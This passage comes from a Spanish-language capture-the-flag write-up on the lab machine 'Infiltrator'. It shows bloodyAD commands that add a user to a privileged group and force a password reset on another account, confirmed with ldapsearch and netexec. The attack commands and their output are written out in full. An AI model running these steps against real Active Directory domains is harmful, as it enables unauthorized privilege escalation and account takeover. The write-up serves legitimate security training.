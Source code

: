 ```bash
```

A través de `bloodyAD`, nos añadiremos a nosotros mismos al grupo `CHIEFS MARKETING`. Verificamos que nos aparece que nos hemos añadido correctamente a través de `ldapsearch`.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'e.rodriguez' -k add groupMember 'CHIEFS MARKETING' 'e.rodriguez'
[+] e.rodriguez added to CHIEFS MARKETING

❯ ldapsearch -x -H ldap://10.10.11.31 -D "CN=E.Rodriguez,OU=Marketing Digital,DC=infiltrator,DC=htb" -w 'Password01!' -b "CN=Chiefs Marketing,CN=Users,DC=infiltrator,DC=htb" member
#
# LDAPv3
# base <CN=Chiefs Marketing,CN=Users,DC=infiltrator,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: member 
#
# Chiefs Marketing, Users, infiltrator.htb
dn: CN=Chiefs Marketing,CN=Users,DC=infiltrator,DC=htb
member: CN=E.rodriguez,OU=Marketing Digital,DC=infiltrator,DC=htb
member: CN=A.walker,CN=Users,DC=infiltrator,DC=htb
member: CN=O.martinez,CN=Users,DC=infiltrator,DC=htb
```

### Abuse ForceChangePassword privileges to change a user's password

En `BloodHound` verificamos que los miembros del grupo `CHIEFS MARKETING` disponen del permiso `ForceChangePassword` sobre el usuario `m.harris@infiltrator.htb`, pudiendo modifcarle la contraseña sin disponer de la actual del usuario.

<figure><img src="../../.gitbook/assets/3775_vmware_svxj9lerbR.png" alt=""><figcaption></figcaption></figure>

Realizaremos el cambio de contraseña del usuario `m.harris@infiltrator.htb` a través de la herramienta de `bloodyAD`, verificaremos que se ha modificado correctamente las credenciales.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'e.rodriguez' -k set password 'm.harris' 'Password01!'
[+] Password changed successfully!

❯ nxc smb dc01.infiltrator.htb -u 'm.harris' -p 'Password01!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\m.harris:Password01! 
```
